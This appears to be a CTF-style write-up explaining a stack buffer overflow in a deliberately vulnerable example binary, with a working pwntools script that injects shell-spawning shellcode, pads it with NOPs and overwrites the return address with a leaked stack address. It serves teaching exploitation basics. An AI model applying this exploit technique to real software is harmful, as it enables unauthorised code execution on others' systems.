


This is simple binary exploitation where you inject malicious payload to stack and execute it, for this case we need to write payload in address we know, so we can execute it. This is just an example binary so it gives leak by itself and we use it.


We can see in binary buffer is 0x100 bytes big (256 bytes), we need to know offset from buffer to return address:
We fill it with 256 "A"s and find offset is 8 bytes:


using this information we can actually write shellcode with pwntools easily or manually, it desn't matter. What we do is, write shellcode first, add NOPs ("0x90") till it is 264 in length and overwrite return address with stack leak address:

```python
from pwn import *

context.binary = ELF("./stack-shellcode")

sc = asm(shellcraft.amd64.linux.sh())

p = process(["./stack-shellcode"])
p.recvuntil("stack leak: ")

stack_leak_addr = int(p.recvline().strip(), 16)

payload = sc.ljust(264, b"\x90") + stack_leak_addr.to_bytes(8, "little")
p.sendafter("shellcode?\n", payload)
p.interactive()

```

To explain this pwntools function, first we have shellcraft.amd64.linux.sh() which you can find in https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.sh
It is used to spawn a shell.
We get leak address and save it as hex value.
and sc.ljust is used to left-justify shellcode and fill rest with "0x90" till it is 264 in length and we add leak address as bytes to the end.